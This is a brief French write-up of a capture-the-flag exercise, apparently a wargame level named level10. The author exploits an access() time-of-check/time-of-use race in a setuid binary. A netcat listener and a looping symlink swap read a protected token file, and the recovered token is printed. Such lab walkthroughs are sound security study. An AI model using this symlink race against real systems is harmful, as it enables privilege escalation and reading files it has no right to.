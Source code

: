 `strings level10` m'indique que c'est un transfert de données sur le port 6969

`%s file host
	sends file to host if you have access to it
Connecting to %s:6969 ..`

`nm -u level10` et `gdb level10` m'indique qu'il y a une verification du fichier avec access

En faisant un `man access` on me dis très clairement qu'il y a une faille exploitable durant un cours laps de temps qui permet de by pass la verification de access.

Je lance un `nc -lk 6969 > /tmp/flag &`

Je lance un script shell
```bash
while true; do
    ln -fs ~/level10 /tmp/get; ln -fs ~/token /tmp/get;
done &
```
Ensuite je lance le binaire jusqu'a voir affiché 'woupa2yuojeeaaed06riuj63c'

qui me permet de me connecter avec su flag10